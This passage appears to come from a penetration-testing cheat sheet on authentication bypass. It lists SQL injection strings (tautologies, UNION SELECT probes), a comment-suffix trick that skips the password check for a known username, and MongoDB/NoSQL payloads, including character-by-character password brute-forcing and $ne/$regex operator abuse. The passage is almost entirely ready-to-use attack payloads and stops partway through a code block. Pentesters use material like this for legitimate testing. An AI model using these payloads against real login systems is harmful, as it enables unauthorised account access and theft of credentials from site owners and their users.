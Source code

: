 ```txt
' or true-- -
or true--

' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT 1,2--
UNION SELECT NULL--
```

### Password Omitting

If we know the username of an existing account, try to add suffix `'-- -` to the username for forcing the server internally to omit the password.

```bash
username: john'-- -
password: password123 (arbitrary value)
```

When the login is successful, not only can we log in with that user, but we can also fuzz with other usernames.

<br />

## NoSQL Injection

Reference: [https://portswigger.net/web-security/nosql-injection](https://portswigger.net/web-security/nosql-injection)

### Mongo

```html
' || 1==1//
' || 1==1%00
' || '1==1
' || '1'=='1
'||1||'

<!-- Brute force each password character -->
admin' && this.password[0] == 'a' || 'a' == 'b
admin' && this.password[1] == 'a' || 'a' == 'b
admin' && this.password[2] == 'a' || 'a' == 'b
admin'%26%26+this.password[0]=='a'||'a'=='b
```

- **Operators**

    ```sh
    # $ne: Not equal
    username[$ne]=xyz&password[$ne]=xyz
    username[$ne]=xyz&password=test

    # $regex: Regular expressions
    username[$regex]=.*&password[$regex]=.*
    username[$regex]=^xyz&password[$regex]=^xyz
    username[$regex]=^a.*$&password[$ne]=xyz
    username[$regex]=.{6}&password[$ne]=xyz
    username[$regex]=^.{1}&password[$regex]=^.{1} # Length of values
